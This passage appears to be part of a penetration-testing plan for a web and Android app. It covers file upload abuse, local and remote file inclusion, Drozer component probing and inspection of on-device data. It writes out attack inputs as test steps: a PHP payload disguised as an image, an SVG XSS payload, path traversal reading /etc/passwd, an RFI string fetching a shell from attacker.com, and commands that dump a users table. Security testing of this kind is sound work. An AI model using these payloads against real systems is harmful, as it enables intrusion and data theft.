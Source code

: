 #### Session 4: File Operations (Day 5)

1. **File Upload Testing**
   - Upload legitimate file (image.jpg)
   - Capture request in Burp
   - Modify content-type to `image/jpeg` with PHP payload
   - Try double extensions: `shell.php.jpg`
   - Try SVG with XSS: `<svg onload=alert('XSS')>`
   - Upload large file (DoS test)
   - Try path traversal in filename: `../../shell.php`

2. **File Inclusion**
   - Test LFI: `?file=../../../etc/passwd`
   - Test RFI: `?file=http://attacker.com/shell.txt`
   - Try different encodings

#### Session 5: Component Exploitation (Day 6)

1. **Using Drozer**
   ```bash
   drozer console connect
   
   # List attack surface
   run app.package.attacksurface com.package.name
   
   # Test exported activities
   run app.activity.info -a com.package.name
   run app.activity.start --component com.package.name/.ActivityName
   
   # Test content providers
   run app.provider.info -a com.package.name
   run scanner.provider.finduris -a com.package.name
   
   # Test for SQL injection in content providers
   run scanner.provider.injection -a com.package.name
   
   # Test for path traversal
   run scanner.provider.traversal -a com.package.name
   ```

2. **Data Storage Testing**
   ```bash
   # Access app data directory
   adb shell
   su
   cd /data/data/com.package.name
   
   # Check shared preferences
   cat shared_prefs/*.xml
   
   # Check databases
   cd databases/
   sqlite3 database.db
   .tables
   SELECT * FROM users;
   
   # Check external storage
   cd /sdcard/Android/data/com.package.name/
   ```
